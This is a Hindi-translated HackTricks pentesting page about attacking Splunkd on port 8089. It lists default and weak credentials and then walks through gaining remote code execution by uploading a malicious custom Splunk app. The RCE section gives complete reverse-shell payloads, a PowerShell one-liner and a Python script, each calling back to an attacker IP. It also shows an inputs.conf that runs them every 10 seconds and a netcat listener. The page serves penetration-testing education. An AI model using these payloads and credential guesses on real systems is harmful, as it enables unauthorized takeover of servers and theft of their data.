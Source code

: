 # 8089 - पेंटेस्टिंग स्प्लंकड

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** को** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github रेपो में।

</details>

## **मूल जानकारी**

Splunk एक **लॉग विश्लेषण उपकरण** है जो **डेटा को एकत्रित, विश्लेषित और दृश्यात्मक बनाने** में महत्वपूर्ण भूमिका निभाता है। जबकि इसका प्रारंभिक उद्देश्य **एक SIEM (सुरक्षा सूचना और घटना प्रबंधन)** उपकरण के रूप में नहीं था, लेकिन यह **सुरक्षा मॉनिटरिंग** और **व्यावसायिक विश्लेषण** के क्षेत्र में लोकप्रिय हो गया है।

स्प्लंकड डिप्लॉयमेंट अक्सर **संवेदनशील डेटा** संग्रहित करने के लिए उपयोग किया जाता है और यदि हमें सिस्टम को कंप्रमाइज करने में सफल हो जाते हैं तो यह **महत्वपूर्ण जानकारी का स्रोत** बन सकता है।
**डिफ़ॉल्ट पोर्ट:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**स्प्लंक वेब सर्वर** डिफ़ॉल्ट रूप से **पोर्ट 8000 पर चलता है**।
{% endhint %}

## गणना

### मुफ्त संस्करण

स्प्लंक एंटरप्राइज परीक्षण **60 दिनों के बाद मुफ्त संस्करण में बदल जाता है**, जिसमें **प्रमाणीकरण की आवश्यकता नहीं होती**। सिस्टम प्रशासकों के लिए सामान्य है कि वे स्प्लंक का परीक्षण करने के लिए परीक्षण स्थापित करें, जिसे **बाद में भूल जाते हैं**। यह स्वचालित रूप से मुफ्त संस्करण में बदल जाएगा जिसमें किसी भी प्रकार का प्रमाणीकरण नहीं होता, जो पर्यावरण में एक सुरक्षा गड्ढा उत्पन्न करता है। कुछ संगठन बजट सीमाओं के कारण मुफ्त संस्करण का चयन कर सकते हैं, जिससे उपयोगकर्ता/भूमिका प्रबंधन के असरों को पूरी तरह समझने में समस्या हो सकती है।

### डिफ़ॉल्ट क्रेडेंशियल्स

पुराने संस्करणों पर स्प्लंक की डिफ़ॉल्ट क्रेडेंशियल्स होते हैं **`admin:changeme`**, जो लॉगिन पेज पर सुविधाजनक रूप से प्रदर्शित होते हैं।\
हालांकि, **नवीनतम संस्करण के स्प्लंक** स्थापना प्रक्रिया के दौरान **क्रेडेंशियल्स सेट करता है**। यदि डिफ़ॉल्ट क्रेडेंशियल्स काम नहीं करते हैं, तो `admin`, `Welcome`, `Welcome1`, `Password123` आदि जैसे सामान्य कमजोर पासवर्ड के लिए जांच करना लायक है।

### जानकारी प्राप्त करें

स्प्लंक में लॉगिन करने के बाद, हम **डेटा ब्राउज़ कर सकते हैं**, **रिपोर्ट चला सकते हैं**, **डैशबोर्ड बना सकते हैं**, स्प्लंकबेस पुस्तकालय से **एप्लिकेशन स्थापित** कर सकते हैं, और कस्टम एप्लिकेशन स्थापित कर सकते हैं।\
आप कोड भी चला सकते हैं: स्प्लंक के पास कई तरीके हैं **कोड चलाने** के, जैसे सर्वर-साइड ड्जांगो एप्लिकेशन, REST एंडपॉइंट, स्क्रिप्टेड इनपुट्स, और अलर्टिंग स्क्रिप्ट्स। स्प्लंक सर्वर पर दूरस्थ कोड निष्पादन प्राप्त करने का एक सामान्य तरीका एक स्क्रिप्टेड इनपुट का उपयोग करना है।

इसके अतिरिक्त, स्प्लंक को विंडोज या लिनक्स होस्ट पर स्थापित किया जा सकता है, स्क्रिप्टेड इनपुट्स बनाए जा सकते हैं जिससे बैश, पावरशेल, या बैच स्क्रिप्ट्स चलाए जा सकते हैं।

### शोडन

* `Splunk निर्माण`

## RCE

### कस्टम एप्लिकेशन बनाएं

एक कस्टम एप्लिकेशन **पायथन, बैच, बैश, या पावरशेल स्क्रिप्ट्स चला सकता है**।\
ध्यान दें कि **स्प्लंक के साथ पायथन स्थापित है**, इसलिए **विंडोज** सिस्टमों में भी आप पायथन कोड चला सकेंगे।

आप इस [**इस**](https://github.com/0xjpuff/reverse\_shell\_splunk) स्प्लंक पैकेज का उपयोग कर सकते हैं। इस रेपो में **`bin`** निर्देशिका में [पायथन](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) और [पावरशेल](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1) के लिए उदाहरण हैं। चलिए इसे कदम-से-कदम देखते हैं।

इसे प्राप्त करने के लिए, हमें पहले निम्नलिखित निर्देशिका संरचना का उपयोग करके एक कस्टम स्प्लंक एप्लिकेशन बनाने की आवश्यकता है:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
**`bin`** निर्देशिका में कोई भी **स्क्रिप्ट होगा जो हमें चलाने का इरादा है** (इस मामले में, एक **PowerShell** रिवर्स शैल) और डिफ़ॉल्ट निर्देशिका में हमारा `inputs.conf` फ़ाइल होगा। हमारा रिवर्स शैल एक **PowerShell वन-लाइनर** होगा:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
फ़ाइल [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) स्प्लंक को **कौन सा स्क्रिप्ट चलाना है** और किसी अन्य स्थिति को बताती है। यहाँ हम ऐप को सक्षम करते हैं और स्प्लंक को हर 10 सेकंड में स्क्रिप्ट चलाने के लिए कहते हैं। अंतराल हमेशा सेकंड में होता है, और इन सेटिंग्स के मौजूद होने पर ही इनपुट (स्क्रिप्ट) चलेगा।
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
हमें `.bat` फ़ाइल की आवश्यकता है, जो एप्लिकेशन डिप्लॉय होने पर चलेगी और PowerShell वन-लाइनर को निष्पादित करेगी।

अगला कदम है `Install app from file` चुनना और एप्लिकेशन अपलोड करना।

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

हानिकारक कस्टम एप्लिकेशन को अपलोड करने से पहले, हमें Netcat या [socat](https://linux.die.net/man/1/socat) का उपयोग करके एक सुनने वाला शुरू करना है।
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
### Hindi

On the `ऐप अपलोड करें` पृष्ठ पर, `ब्राउज़` पर क्लिक करें, हमने पहले बनाया था उस टारबॉल चुनें और `अपलोड` पर क्लिक करें। जैसे ही हम **ऐप्लिकेशन अपलोड** करते हैं, ऐप्लिकेशन की स्थिति स्वचालित रूप से `सक्षम` पर स्विच कर दी जाएगी।

#### लिनक्स

अगर हम **एक लिनक्स होस्ट** के साथ काम कर रहे होते, तो हमें **टारबॉल बनाने से पहले `rev.py` पायथन स्क्रिप्ट को संपादित** करने की आवश्यकता होती। बाकी प्रक्रिया समान रहेगी, और हमें हमारे नेटकैट सुनने वाले पर एक रिवर्स शैल कनेक्शन मिलेगा और हम रेसिंग की ओर बढ़ेंगे।
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & विशेषाधिकार उन्नयन

निम्नलिखित पृष्ठ में आप एक व्याख्या पा सकते हैं कि यह सेवा विशेषाधिकारों को उन्नयन करने और स्थिरता प्राप्त करने के लिए कैसे दुरुपयोग किया जा सकता है:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## संदर्भ

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PRs जमा करके।

</details>
